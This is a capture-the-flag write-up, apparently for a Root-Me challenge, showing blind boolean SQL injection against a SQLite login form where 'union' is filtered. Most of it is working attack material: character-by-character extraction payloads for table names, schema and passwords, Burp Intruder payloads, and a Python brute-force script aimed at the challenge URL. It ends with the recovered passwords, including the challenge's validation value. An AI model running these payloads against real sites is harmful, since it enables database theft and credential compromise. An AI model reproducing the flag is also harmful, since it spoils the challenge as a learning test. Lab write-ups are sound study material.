








Database name: SQLite3

Filtered words: union

**Retrieve Table Name**
```
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),P,1)) < N --
```
Example: Checking if the first character of the first table’s name is greater than ‘M’
```
' OR UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 0), 1, 1)) > 77 -- 
```

>use Intruder
```
username=a&password='+OR+UNICODE(SUBSTR((SELECT+name+FROM+sqlite_master+WHERE+type%3d'table'+LIMIT+1+OFFSET+0),position,1))==ascii--
```


I got the table `users`

**Retrieve Table Schema**
```
' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'), P, 1)) {} {} -- 
```
-    Replace $TABLE_NAME with the table `users`.
-    P extracts characters one by one.

Example: Extract first character of schema for users table
```
' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='users'), <position>, 1)) = UNICODE('M') --
```
Python script:
```py
import requests


URL = "http://challenge01.root-me.org/web-serveur/ch10/"
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}
def get_char_at_pos(position):
    for char_code in range(32, 127): 
        payload = f"' OR UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='users'),{position},1))=={char_code}--"
        data = {"username": "a", "password": payload}

        response = requests.post(URL, headers=HEADERS, data=data, allow_redirects=False)

        if 'user1' in response.text:
            return chr(char_code)
        else:
            print(f"Trying {chr(char_code)} at position {position}...")

    return "\x00"

def extract_schema():
    schema = ""
    position = 1  

    while True:
        char = get_char_at_pos(position)
        if char == "\x00":  
            break
        schema += char
        print(f"[+] Extracted so far: {schema}")
        position += 1

    return schema

schema_result = extract_schema()
print("\n Extracted Table Schema:")
print(schema_result)
```
Or, in my case I used Intruder

`'+OR+UNICODE(SUBSTR((SELECT+sql+FROM+sqlite_master+WHERE+tbl_name%3d'users'),+<position>,+1))+%3d+UNICODE('<CHAR>')+--`

`seg 0 50`

`for i in {32..126}; do printf "\\$(printf '%03o' $i)\n"; done`






we got 3 collumns: `username`, `password` and `year`

**Retrieve Column Values**
```
' OR UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM $TABLE_NAME LIMIT 1 OFFSET N), P, 1)) {} {} --  
```
-    $COLUMN_NAME → The column you want to extract.
-    $TABLE_NAME → The table you found earlier.
-    LIMIT 1 OFFSET N → Selects which row (first row = OFFSET 0, second row = OFFSET 1, etc.).
-    P → Selects which character of the value to extract.

Example: Extract first character of first username from users table
```
' OR UNICODE(SUBSTR((SELECT password FROM users LIMIT 1 OFFSET 0), position, 1))=UNICODE('char') --
```


The result for offset 0 is DsD6z756f$!



The result for offset 1 is e2azO93i, which is the validation
